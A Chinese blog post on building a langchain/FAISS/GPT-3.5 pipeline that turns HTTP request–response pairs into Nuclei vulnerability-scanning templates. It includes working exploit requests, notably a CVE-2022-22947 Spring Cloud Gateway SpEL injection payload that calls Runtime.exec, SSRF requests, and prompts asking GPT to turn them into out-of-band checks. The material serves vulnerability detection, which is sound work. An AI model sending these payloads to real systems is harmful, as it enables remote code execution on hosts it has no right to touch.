






# 我是如何用 GPT 自动化生成 Nuclei 的 POC

### 前言

在之前的公众号文章中使用 ChatGPT 结合 llama-index 做的 embedding 查询，就想到结合 Nuclei 的文档来根据我的请求和响应编写对应 POC。由于 llama-index 对可扩展性太小，且底层也是通过 langchain 来做的，之后就直接使用 langchain 来编写脚本与 ChatGPT 进行交互。加之上次整个步骤可能没讲太明白，就索性把框架到代码编写以及遇到的问题都过一遍。

### Embedding 技术介绍

Embedding 是一种专业术语，大致的意思是将某个数据内容向量化的过程。实质上，Embedding 就是一串多个具有特殊意义的浮点数组成的数组。如 \[0.2,0.5\] 和 \[0.6,0.8,0.9,...,0.6\] 等，因前者数组有两个元素，因此也叫二维 Embedding，后者有多个元素，也叫多维 Embedding。


  

例如，\[0.2,0.8\] 这个数组，第一个元素代表爵士乐，第二个元素代表华语。这时候需要推荐相关音乐的时候就可以根据用户的画像来推荐对应几个元素高的歌曲。因此 Embedding 技术也广泛应用于图片、文本、视频等基础输入数据上处理。通过训练和关联数组中的元素，可以做到将真实世界中的某个物体、事件和行为以向量的形式保存在数组中，以此来实现分类和预测。

正因为机器只能接收文字形的东西，所以很多时候通过一问一答的方式来做 fine-tuning 或者通过 embedding 的方式把数据投喂给 GPT。

举个例子：



  

将 5 个单词经过 One-hot Encoding 后，得到一组向量值，这个就相当于你这个单词在这个元素中代表的唯一意思。但是问题来了，cat 和 dog 在生活中非常相似，都是宠物。所以我想让机器在学习的时候对这两个单词有着相同意思，因此就需要这两个单词的向量的欧式距离更小。


  

而通过已经训练好的模型来聚类和分析之后，可能在二维向量图上就是如此分布，cat 和 dog 语义上非常接近，在空间上的距离也会非常接近。而且是属于生物，因此在 X 轴上与 tree 和 flower 同属生物的相似。而每个单词的向量其实是没有意义的，单词与单词之间的欧式距离才有实际意义。

之后碰到“i have a black cat”和“i have a black dog”就会分辨这是一句相似的话了。

Embedding 就是通过这种方式，将真实世界中离散存在的物体和事物转换在本地词汇向量数据库中，映射成空间向量。再看如下图（图来源于 Document.ai 项目）



  

实现步骤大致如下：

1.  将本地存放的数据集使用 langchain 或其他框架，将数据读取并分词，调用 OpenAI 的 Embedding 模型，并把返回的 Embedding 数值存放在本地或向量数据库中。
    
2.  用户自己定义 prefix\_prompt 和问题，将问题通过 OpenAI 的 Embedding 模型进行转换，并与向量数据库中的内容进行相似度分析，将相关的 Embedding 指作为 Payload 继续发送给 GPT-3.5 来处理问题。
    
3.  GPT-3.5 返回结果给用户。
    

至于为什么会选择 Embedding 方式，有两个非常好的特征：升维和降维。

-   升维：升维就好比一个物体，如手机，一开始只有触感、像素、屏幕尺寸来衡量，因此相似的产品肯定很多，就会有误差。但将维度升高之后，继而有品牌、容量、发售日期、处理器版本、操作系统是 Android 还是 IOS 等等因素。就减少了笼统特征带来的误差，加强了对某个物体的特征描述。
    
-   降维：就好比矩阵乘积的 2X4 的矩阵乘以一个 4X3 的矩阵，得到的内容一定是一个 2X3 的矩阵，这样就将两个矩阵的量级降维了。
    

### 结合 Langchain 实现 POC 生成

介绍完了 Embedding 相关理论，就搭建相关的环境来测试一下

首先需要 clone 一下 nuclei 的操作问文档，本来是想用爬虫把网页文档爬下来，后面发现官网已经写好了文档，还是 markdown 的方式。方便之后将文档 Embedding 向量化之后和 Prompt 一起发送给 ChatGPT。

```bash
git clone https://github.com/projectdiscovery/nuclei-docs
```

这里只需要用到项目中的 template-examples 和 templating-guide 两个重要的文档，里面记录了如何编写 nuclei 可以理解 yaml 规则。

大致的目录如下

```bash
+ data
	- wiki
		- template-examples
		- templating-guide
		- get-started.md
+ Run.py
```

为了使用 langchain，还需要安装几个必要的环境

```bash
pip install langchain
pip install openai
```

由于需要用到 ChatGPT，所以需要 os 库提前设置 OPENAI\_API\_KEY 变量

```bash
import os
os.environ["OPENAI_API_KEY"] = "sk-xxxxxxxxxxxxxx"
```

设置好就需要将 Markdown 的内容读取到内存中，并进行分词

```bash
PART = "wiki"
ps = list(Path(f"./data/{PART}").glob("**/*.md"))

from langchain.text_splitter import MarkdownTextSplitter
from langchain.embeddings import OpenAIEmbeddings
from langchain.document_loaders import UnstructuredMarkdownLoader

for file in ps:
        fname = file
        loader = UnstructuredMarkdownLoader(file)
        markdown_splitter = MarkdownTextSplitter(chunk_size=2048, chunk_overlap=128)
        markdown_docs = loader.load()
        markdown_docs = [x.page_content for x in markdown_docs]
        chunks = markdown_splitter.create_documents(markdown_docs)
        for chunk in chunks: chunk.metadata["source"] = fname # need to add the source to doc
        source_chunks.extend(chunks)
```

这里是使用 langchain 的 UnstructuredMarkdownLoader 和 MarkdownTextSplitter 来分词，更精确表达 Markdown 中的内容。之后调用 FAISS 来进行保存，这个 FAISS 在这里简单带过一遍，原称全名是 Facebook AI Similarity Search，其定义是一个用于密集向量的高效相似性搜索和聚类的库。可以看作类似一个 Embedding 之后的向量数据库。

在 langchain 框架中，可以通过 vectorstores 直接导入 FAISS

```bash
from langchain.vectorstores.faiss import FAISS
```

由于之前返回的 source\_chunks 是 document 属性，因此可以使用 FAISS.from\_documents () 的函数来导出向量。

```bash
search_index = FAISS.from_documents(source_chunks, OpenAIEmbeddings()) 
search_index.save_local(f"{PART}.faiss")
```

通过第二个参数传递 OpenAIEmbeddings 模型，会调用 OpenAI 的 Embedding 模型来转换向量数据



  

导出成功之后，会在当前目录下生成一个 wiki.faiss 文件夹，文件夹中有 index.faiss 和 index.pkl 两个文件

有了本地的向量数据库之后，就可以通过向量来查询问题

查询的首要步骤就是加载本地的向量数据库

```bash
vectorstore = FAISS.load_local(f"{PART}.faiss",embeddings=OpenAIEmbeddings())
```

跟进 load\_local 函数中可以看到加载了本地的 index.faiss 和 index.pkl 两个文件

```bash
@classmethod
def load_local(cls, folder_path: str, embeddings: Embeddings) -> FAISS:
    """Load FAISS index, docstore, and index_to_docstore_id to disk.

    Args:
        folder_path: folder path to load index, docstore,
            and index_to_docstore_id from.
        embeddings: Embeddings to use when generating queries
    """
    path = Path(folder_path)
    # load index separately since it is not picklable
    faiss = dependable_faiss_import()
    index = faiss.read_index(str(path / "index.faiss"))

    # load docstore and index_to_docstore_id
    with open(path / "index.pkl", "rb") as f:
        docstore, index_to_docstore_id = pickle.load(f)
    return cls(embeddings.embed_query, index, docstore, index_to_docstore_id)
```

设置 VectorDBQA 对象

```bash
qa =VectorDBQA.from_chain_type(
    llm=OpenAI(
        temperature=0,
        model_name="gpt-3.5-turbo",
        max_tokens=2048
    ),
    vectorstore = vectorstore
)
```

这里的 temperature 参数就是设置 GPT 是否根据你的“语言乱语”的程度，数值越大，GPT 生成的回答就越偏向自己的内容，而不是文档里的回答。

最后只需要调用 "query" 来查询 prompt 即可

```bash
result = qa({"query": questions})
print(result)
```

### Prompt to Poc

想着先用 HTTP 请求和响应的方式来生成

```bash
questions = """
    Please read the following HTTP request according to the operation documentation of the nuclei tool:
    ===
    GET /rest/sharelinks/1.0/link?url=https://baidu.com/ HTTP/1.1
    ===
    
    The HTTP response is as follows:
    ===
    HTTP/1.1 200 OK
    ===
    The above request response is the ssrf vulnerability of the Atlassian Confluence system that is less than version 5.8.6. The author of the discovery is TechbrunchFR, and the cve number is CVE-2021-26072. The vulnerability is the url parameter. Help me generate a nuclei poc, requiring the use of nuclei Use the built-in DNSLOG to judge the vulnerability.API to achieve OOB based vulnerability scanning with automatic Request correlation built in.And add {{BaseURL}} placeholder in front of the path for me.Don't generate too many explanations for me, I only need the complete yaml code.
    
    """
```

但是返回的结果却有点不尽人意

```bash
id:
atlassian-confluence-ssrf
info:
name:
Atlassian
Confluence
SSRF
author:
TechbrunchFR
severity:
high
description:
|    Atlassian Confluence before version 5.8.6 allows SSRF via the url parameter.
reference:
-
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26072
requests:
-
raw:
-
|        GET {{BaseURL}}/rest/sharelinks/1.0/link?url=https://{{interactsh-url}} HTTP/1.1        Host: {{Hostname}}
matchers:
-
type:
word
part:
interactsh_protocol
words:
-
"dns"
-
type:
word
part:
interactsh_request
words:
-
"GET / HTTP/1.1"
-
type:
word
part:
interactsh_response
words:
-
"HTTP/1.1 200 OK"
```

返回的状态码 200 并没有通过 type:status 的方式返回，而是直接粗略匹配 HTTP/1.1 200 OK 关键词，而 interactsh\_protocol 协议也没有使用明确的 http，并且 ChatGPT 好像没有理解 interactsh\_request 和 interactsh\_response 的意思。

不过好在 {{BaseURL}} 和 {{interactsh-url}} 出现在了正确的位置

### 优化查询 Prompt

为了尽可能减少工作量，秉着能少做一点是一点的态度把 Prompt 利用起来，没想到达到的效果还不错。

我先是升级了一下我的 langchain

```bash
pip install --upgrade langchain
```

这里升级完之后是 langchain-0.0.138 的版本，老版本是 langchain-0.0.115

我新建了一个 prompt.py 用来存放我的系统 prompt，内容大致是

```bash
prompt_template="""You are an AI assistant for the open source library nuclei. The documentation is located at https://nuclei.projectdiscovery.io/templating-guide/.
You are given the following extracted parts of a long document and a question. Provide a answer with a yaml file to the documentation.
You should only use markdown file that are explicitly listed as a source in the context. Do NOT make up a yaml source code that is not listed.
Use the following pieces of context to answer the users question. 
If you don't know the answer, just say that you don't know, don't try to make up an answer.

Question: {context}
=========
Answer:"""
```

在我的主函数文件中引用该变量

```bash
from prompt import prompt_template
```

后续这里就使用了 langchain 的 SystemMessagePromptTemplate 和 HumanMessagePromptTemplate 来设置查询 Message 模板

```bash
messages = [
    SystemMessagePromptTemplate.from_template(prompt_template),
    HumanMessagePromptTemplate.from_template("{question}")
]
chat_prompt = ChatPromptTemplate.from_messages(messages)

chain_type_kwargs = {"prompt": chat_prompt}
```

使用之前还需要引用它们

```bash
from langchain.prompts import (
    ChatPromptTemplate,
    SystemMessagePromptTemplate,
    HumanMessagePromptTemplate,
)
```

在新版本之后，查询会提示你不要使用 OpenAI 和 VectorDBQA 函数，显示为已过时的函数了

在新版本可以使用 ChatOpenAI 和 RetrievalQA 的方式来代替

```bash
from langchain.chains import RetrievalQA
from langchain.chat_models import ChatOpenAI

llm = ChatOpenAI(model_name="gpt-3.5-turbo", temperature=0, max_tokens=2048)
qa =RetrievalQA.from_chain_type(
    llm=llm,
    chain_type="stuff",
    retriever=vectorstore.as_retriever(),
    return_source_documents=True,
    chain_type_kwargs = chain_type_kwargs
)
```

还有一个变化就是 retriever，这个是之前加载的 embedding 数据，需要通过 as\_retriever () 进行转换才来进行检索

这里我就用本地的靶场 SSRF 漏洞进行测试



  

url 参数是直接可以对外发起请求的

我将这两个请求内容添加到 prompt 中进行查询，看看 ChatGPT 给我返回什么内容

```bash
question_text = """
    Please read the following HTTP request according to the operation documentation of the nuclei tool:
 ···
    GET /taintwebapp/SSRFServlet?url=https://www.baidu.com HTTP/1.1
    Host: 192.168.73.229:8080
    Connection: close
    ···
    
    The HTTP response is as follows:
    ···
    HTTP/1.1 200
    Connection: close
    
    <html><head></head><body>test</body></html>
    ···
    
    The above request response is the ssrf vulnerability of the taintWebapp system that is less than version 1.0.1. The author of the discovery is wh4am1, and the cve number is CVE-2024-6666. The vulnerability is the url parameter. Help me generate a nuclei poc, requiring the use of nuclei Use the built-in DNSLOG to judge the vulnerability.API to achieve OOB based vulnerability scanning with automatic Request correlation built in.Don't generate too many explanations for me, I only need the complete yaml code.CWE id is CWE-918. Severity level is medium. Need to verify metadata.Use http interactsh_protocol and add http header in url,also mark {{Hostname}},Matches <html> content in body.
    """
```

不过经过查询还是需要改动，于是我想着在本地 data 文档数据中添加一个问答模板呢

问答模板也很简单，就是模拟用户提问，再生成一个标准的答案



  

为了体现 GPT 能举一反三，于是我就用 XSS 漏洞的问答案例，好跟我的 SSRF 漏洞模板分隔开来。

之后运行代码再次查询


  

将 json 字符串里面的 result 提取出来，并将 \\n 字符串替换成换行符


  

可以看到生成的 yaml 文件几乎是比较正确的，比之前的好多了



  

用工具验证的结果也是正确的

不过！这里还有个小问题，就是 nuclei 只会讲 {{interactsh-url}} 替换的 dnslog 地址是没有 http 头的（虽然我已经在 prompt 中明确指出在 url 地址添加 http 标头），这里也是生成后的代码唯一需要改的地方。


  

nuclei 自带的 dnslog 挺慢的，这里我就修改超时时间为 10 秒，方便验证

具体生成的代码还是挺不错的，适合辅助安全人员编写 poc

为了测试实战性怎么样，打算搞个最近出现的洞进行测试，这里就选择 CVE-2022-22947 的 SPEL 表达式注入漏洞进行测试

验证漏洞首先会通过 POST 进行发包

```bash
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8096
Content-Type: application/json
Content-Length: 185

{
	"id":"hacktest",
	"filters":[{
		"name":"RewritePath",
		"args":{
			"_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"calc\")}",
			"_genkey_1": "/${path}"
		}
	}]
}
```

之后返回的内容如果是 201 Created，就可以再继续访问 /refresh 来刷新路由触发 SPEL 表达式

因此我判断漏洞的步骤就是发送 POST 请求，并判断返回结果是否为 201 Created，如果是则显示有漏洞

Prompt 如下：

```bash
question_text = """
    Please read the following HTTP request according to the operation documentation of the nuclei tool:
    ···
    POST /actuator/gateway/routes/hacktest HTTP/1.1
    Host: 192.168.73.229:8080
    Content-Type: application/json
    Content-Length: 185

    {
        "id":"hacktest",
        "filters":[{
            "name":"RewritePath",
            "args":{
                "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"calc\")}",
                "_genkey_1": "/${path}"
            }
        }]
    }
    ···

    The HTTP response is as follows:
    ···
    HTTP/1.1 201 Created
    ···

    The above request response is the spel injection vulnerability in spring cloud gateway versions prior to 3.1.1+ and 3.0.7+. Severity level is High.The author of the discovery is VMware, and the cve number is CVE-2022-22947. Help me generate a nuclei poc, requiring the use of nuclei Use the built-in DNSLOG to judge the vulnerability.And judging that the HTTP response status code is 201 Created.Don't generate too many explanations for me, I only need the complete yaml code.Use the dns protocol of interactsh_protocol, and modify the cmd command parameter to ping interactsh address,also mark {{Hostname}}.
    """
```

生成的内容如下：


  

除了 Hostname 后面跟了 8080 端口之外，基本上挑不出毛病，甚至可以说非常正确！

经过测试，Poc 的生成完全是没有问题，如果需要一些复杂的函数，估计需要在 data 中添加相关的问答 Markdown。而这种 Embedding 的方法是目前结合安全产品成本最低，也是目前可以发展的一个突破点。

尽管如此，但是还是存在不少问题，如

1.  查询数据可能还有偏差，做不到百分百正确。
    
2.  GPT-3.5 限制 Token 长度为 4097，Prompt 太短通用性不高，太长又有限制。
    

### 查询数据不准确难题

可以通过数据优化、自训练 Embedding 模型、LLM 的 fine-tune 三个维度来进行修正

#### 基于数据优化

可以直接在问答上面入手，提供一个问答场景，在提问的时候直接将所需的问答环境写进本地的知识库中，之后向量相似度计算到相关内容的时候 GPT 也能回答非常专业。或是通过 LDA、LSA 算法生成主题，并根据主题向量进行计算。

#### 自训练的 Embedding 模型

可通过 Word2vec 或 text2vec 的模型基础上再进行训练：https://github.com/shibing624/text2vec

text2vec 项目中也有说到如何通过训练出 text2vec-base-chinese 模型

#### 通过自身大模型微调

自己通过编写问答方式来微调，这种效果虽然明显，但是需要硬件支持较高，且每次微调的时间成本大。

#### 使用 Pipeline 流水线打磨

由于 Nuclei 自带有 - validate 参数可以验证模板的语法错误。具体步骤就是通过生成好的 yaml 文件过一遍 validate，如果有错误，将 yaml 内容和错误信息再继续投给 ChatGPT，以此往复。可是如果遇到上述 SSRF 的 interactsh-url 地址前面没有带上 HTTP 协议头的问题，就需要人为排查或多投相关问答案例的模板，让向量查询的 prompt 和问题模板能关联上。

### 查询 Token 限制问题

关于 Token 限制的问题，其实可以用自己 fine-tune 的模型来做，比如清华开源的 ChatGLM，或者是 llama.cpp 和斯坦福开源的 alpaca。网上的微调案例很多，感兴趣的读者可以上 GitHub 看看。包括现在也有 Langchain-ChatGLM 的项目，可以根据自己的实际场景来做向量和微调的结合产物。

当然，有“实力”的用户也可以直接用 GPT-4 的 API 来查询，不仅不需要微调，甚至代码理解能力可能还更好。

### 写在最后

大模型的发展肯定是未来一个重要的趋势，虽然现在很多模型微调和运行需要一定的 GPU 数量级支持，但现在 AIGC 的模式带来的变革是以肉眼可见的方式，相信在不久的将来，大模型会像计算机一样出现类似个人 PC 的局面。

再一个就是安全方向的发展肯定跟传统的安全工具息息相关，如蜜罐和 LLM 大模型结合后的自动研判、RASP 和 CodeQL 的联动、或者是参考文章《用 LLM 降低白盒误报及自动修复漏洞代码》：https://mp.weixin.qq.com/s/leLFECUaNOGbjsN\_8mcXrQ 文中介绍的 semgrep 的实践和 DevOps 流水线中自动提交 pr 修复 bug 的理念。

完整的代码已经上传至 GitHub：https://github.com/sf197/nuclei\_gpt

### Reference

\[1\].https://mp.weixin.qq.com/s/leLFECUaNOGbjsN\_8mcXrQ

\[2\].https://www.bilibili.com/video/BV1GN411T7dC

\[3\].https://www.bilibili.com/video/BV1n4411g7Y5

\[4\].https://github.com/GanymedeNil/document.ai

\[5\].https://qiankunli.github.io/2022/03/02/embedding.html

\[6\].https://github.com/hwchase17/langchain/issues/2436

\[7\].https://toniseldr.hashnode.dev/integrando-o-chatgpt-com-sua-base-de-conhecimento-interna-e-plataforma-de-perguntas-e-respostas

\[8\].https://python.langchain.com/en/latest/modules/chains/index\_examples/vector\_db\_qa\_with\_sources.html?highlight=RetrievalQAWithSourcesChain

\[9\].https://github.com/kldarek/LLM-experiments/blob/2df6e55bb911bb41c3d9db00f68b56423b633e02/eval\_chat.py

\[10\].https://github.com/projectdiscovery/nuclei-templates/blob/main/vulnerabilities/confluence/confluence-ssrf-sharelinks.yaml

\[11\].https://github.com/jakedahn/cloudflare-agent-qa/blob/main/ingest.py
